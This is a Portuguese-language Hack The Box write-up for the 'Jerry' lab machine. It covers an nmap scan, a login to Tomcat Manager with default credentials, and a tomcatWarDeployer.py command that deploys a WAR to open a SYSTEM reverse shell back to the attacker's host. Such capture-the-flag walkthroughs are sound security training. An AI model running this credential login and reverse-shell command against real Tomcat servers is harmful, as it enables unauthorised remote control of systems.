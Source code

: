 ```yaml
---
title:     "Hack The Box - Jerry"
tags: [windows,easy]
categories: HackTheBox
---
```


![1.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-jerry/1.jpg)

## Enumeration

Hehehe, olha eu aqui novamentee

Iniciando com o nmap

```
root@kali:~/HTB-Windows/jerry# nmap -sV -p- -A -sC -T4 -oA nmap/init 10.10.10.95
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-02 17:22 EDT
Nmap scan report for 10.10.10.95
Host is up (0.20s latency).
Not shown: 65534 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows Vista (86%)
OS CPE: cpe:/o:microsoft:windows_vista::sp1:home_premium
Aggressive OS guesses: Microsoft Windows Vista Home Premium SP1 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   214.34 ms 10.10.14.1
2   205.73 ms 10.10.10.95

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1125.18 seconds
```

## Find Exploit

Temos um  `Apache Tomcat/7.0.88` vamos explorar isso

## Exploitation

Navegando ate o tomcat na pagina inicial temos algumas opcoes uma delas eh o `Manager App` quando clicamos ele pede senha para autenticar na application..

Se voce por qualquer cred, ele da erro e mostra o login  default `tomcat:s3cret`, voce tbm poderia fazer bruteforce na tentativa de encontrar uma cred valida.

![2.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-jerry/2.jpg)

Usando o password default rapidamente fazemos login e assim vamos explorar esse acesso e obter uma reverse shell

um pouco mais abaixo encontramos informacoes sobre o server rodando em backgroud

![3.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-jerry/3.jpg)

## Privilege Escalation

***reference*** https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/

## Usando tomcatWarDeployer.py

Usando o [tomcatWarDeployer.py](https://github.com/mgeeky/tomcatWarDeployer) conseguimos rapidamente obter uma reverse shell como SYSTEM

`python tomcatWarDeployer.py -U tomcat -P s3cret -H 10.10.14.37 -p 53 10.10.10.95:8080`

![4.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-jerry/4.jpg)







